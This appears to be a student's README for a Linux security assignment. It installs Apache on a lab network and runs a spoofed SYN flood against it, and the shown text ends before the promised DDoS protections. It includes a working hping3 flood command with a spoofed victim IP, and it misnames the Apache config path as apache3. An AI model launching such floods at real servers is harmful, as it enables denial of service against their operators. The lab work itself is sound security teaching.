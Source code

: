 # WSO2_Linux_Security_Assignment


## Operating Systems used
1. Ubuntu
2. Kali Linux

## IP Addresses 
1. Web Server - 192.168.1.230
2. Victim     - 192.168.1.233
3. Hacker     - 192.168.1.20


## 1. Apply controls to protect from DDOS attacks

### Installing Apache Web Server

```
sudo apt update
sudo apt install apache2
```

### After installing I went ahead and uploaded a sample website to the /var/www folder and created a new config file in /etc/apache3/sites-available/

```
nano /etc/apache3/sites-available/gci.conf
sudo a2ensite gci.conf
systemctl reload apache2
```

###### After following the above steps you should have a working simple website.

### Afterwards I ran a SYN Flood Attack by spoofing my IP to the victims IP address. This is the command that I executed

```
hping3 -a 192.168.1.233 192.168.1.230 -S --flood -V -p 80
```
###### 192.168.1.233 is the victim's IP and 192.168.1.230 is the web server's IP address.

### Initiating SYN Flood attack (Spoofed IP)
![image](https://user-images.githubusercontent.com/75664650/130322699-d6d7c32d-9233-4b9f-8226-2fbefc2c2cf6.png)

### Tcp Dump (Hacker)

![image](https://user-images.githubusercontent.com/75664650/130322740-2f7bef27-9b62-4c9a-8b9d-468460716e4a.png)

### TCP Dump (Web Server)

![image](https://user-images.githubusercontent.com/75664650/130322758-41931a42-86b4-4337-9347-53461d25be5b.png)

### TCP Dump (Victim)

![image](https://user-images.githubusercontent.com/75664650/130322786-4a15d731-8a13-4d61-befb-caaa0f2d5d26.png)















































